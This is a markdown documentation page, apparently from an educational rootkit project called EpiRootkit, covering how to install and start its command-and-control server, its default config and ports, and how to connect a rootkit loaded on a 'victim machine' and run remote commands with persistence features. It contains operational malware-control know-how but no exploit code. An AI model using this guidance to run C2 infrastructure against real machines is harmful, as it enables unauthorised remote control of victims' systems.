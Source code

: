 ```yaml
---
title: "Installation"
description: "Step-by-step installation and setup guide"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 33
---
```


# Installation Guide

Complete setup instructions for the EpiRootkit C2 server.

## Prerequisites


### Verify Prerequisites
```bash
# Check Node.js version
node --version

# Check pnpm installation
pnpm --version

# Install pnpm if not available
npm install -g pnpm
```

## Installation Steps

### 1. Navigate to Project Directory
```bash
cd attacking_program
```

### 2. Install Dependencies
```bash
# Using pnpm (recommended)
pnpm install

# Or using npm
npm install
```


## Configuration

### 1. Review Configuration File
```bash
cat config.env
```

**Default Configuration:**
```bash
# EpiRootkit C2 Server Configuration
C2_PORT=4444
WEB_PORT=3000

# Authentication Configuration
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86

# Encryption Configuration
ENCRYPTION_KEY=0123456789abcdef0123456789abcdef
ENABLE_ENCRYPTION=true
```


## First Run

### 1. Start the C2 Server
```bash
pnpm start
```

**Expected Output:**
```
┌─ C2 Server Interface • Initializing...
└─ Initializing...

┌─ Setup
  • [2025-05-25 16:00:00] Config: C2_PORT=4444, WEB_PORT=3000
└─

┌─ Server Status
  • [2025-05-25 16:00:00] Server started on port 4444
└─

  • Web interface started on port 3000

c2-server$ 
```


### 3. Test CLI Interface
```bash
# In the C2 server prompt
c2-server$ help

# List clients (should be empty initially)
c2-server$ ls
# No clients connected
```


## Next Steps

1. **Connect a Rootkit**: Load the EpiRootkit module on a victim machine
2. **Authenticate**: Use `auth Client-1 password` to establish secure connection
3. **Execute Commands**: Start with `exec Client-1 whoami` to test functionality
4. **Explore Features**: Try file operations, persistence management, and configuration
